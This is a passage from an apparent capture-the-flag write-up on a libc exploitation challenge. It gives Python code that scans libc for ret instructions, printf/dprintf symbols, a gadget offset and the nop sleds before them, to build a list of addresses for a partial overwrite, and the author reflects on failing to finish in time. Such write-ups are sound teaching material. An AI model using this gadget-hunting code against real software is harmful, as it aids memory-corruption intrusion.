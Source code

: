 

#### Find a list of all the "safe" libc addresses

```python
nops = [
0x90,
0x6690,
0x0f1f00,
0x0f1f4000,
0x0F1F440000,
0x660F1F440000,
0x0F1F8000000000,
0x0F1F840000000000,
0x660F1F840000000000,
0x662e0f1f840000000000
]

addrs = []
code = open('libc.so.6','rb').read()
t=time.time()
print("\ncomputing safe addresses...",end="")
for i in range(len(code)):
    if code[i] == 0xc3 or i == libc.symbols['dprintf'] or i == libc.symbols['printf'] or i == 0x4f322:
        addrs.append((baselibc + i) & 0xFFFFFF)
        j = i
        while True:
            for k in range(len(nops)-1,-1,-1):
                if code[j-k-1:j] == nops[k].to_bytes(k+1,byteorder='big'):
                    addrs.append((baselibc + j-k-1) & 0xFFFFFF)
                    break
            else:
                break
            j = j-k-1
print(int(time.time() - t),end="")
print(" seconds")
```

> This is where I failed.  Getting this far (identifying the vuln, targeting `printf`, and testing the gadget) took minutes and I thought I was minutes away from a solve.  Well, nope.
>
> For starters I only looked for `ret` (`0xc3`) and single byte `nop` sleds before `ret`.  Minutes before closing it had occurred to me to also search for multibyte `nop`, however, IIRC, there were none before any `ret`.  
> 
> `dprint` (_goddamnit_).

This code reads in all the bytes from the provided `libc.so.6`, and then searches for any `ret` statements or known good addresses.  The assumption is that any `ret` is a safe place to call.

If a match is found, it is added to the `addrs` list, and then looks back for single and multibyte `nop` sleds leading to that address (required or this fails).  If found, then they are also added to `addrs`.  (There's probably a super sexy regex that will do this all for me as a single expression.)

